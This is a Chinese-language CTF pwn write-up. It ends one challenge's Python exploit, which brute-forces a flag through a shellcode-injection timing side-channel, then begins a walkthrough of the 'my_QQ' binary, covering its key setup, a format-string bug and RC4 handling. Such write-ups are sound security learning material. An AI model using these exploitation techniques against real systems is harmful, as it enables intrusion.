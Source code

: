 ```python
        p.close()
        # 测试接收时延，超过一定时限则说明在 pwn() 函数中插入 shellcode 后卡循环了，即 flag 中的第 index 个字符是 ch
        if(end-start > 1.5):
            flag += chr(ch)
            last = chr(ch)
            update = True
            print("[ flag + 1 !!! ] " + flag)
            break
    
    assert(update == True)
    
    if(last == '}'):
        break
    
    index += 1

print("flag: " + flag)
```

### my_QQ

参考链接：https://ycznkvrmzo.feishu.cn/docx/G17xduF91omE5nxgkgfc1W93nqb

前言：比赛时进入到了存在格式化字符串漏洞的函数，但是一直卡在rc4 加解密那里

首先介绍一下程序怎么启动

在本地目录下创下如下目录"./pem/server/"

然后使用openssl生成公私钥

```bash
openssl genrsa -out privatekey.pem 1024
openssl rsa -in privatekey.pem -out public.pem -outform PEM -pubout

```

![image-20240112200247729](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111762.png)

接着程序开启一个10000端口，并向该端口接收和发送数据

进入start_routine 函数，主要有两个功能，register 和login，接收4字节，如果为yes， 则进入login 函数，如果不是，则进入register 函数。接下来先看register 功能

![image-20240112202203477](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111763.png)

首先接收0x400字节的buf，buf 输入的内容后面进行介绍，接下来进行公钥验证，然后进入register 函数中

![image-20240112211306960](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111764.png)

verify_key 函数中，会向1000端口的socket 链接发送public key，在1000端口的socket 链接中，我们接收到该pulbic key之后再发送给该程序即可

![image-20240112212123823](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111765.png)

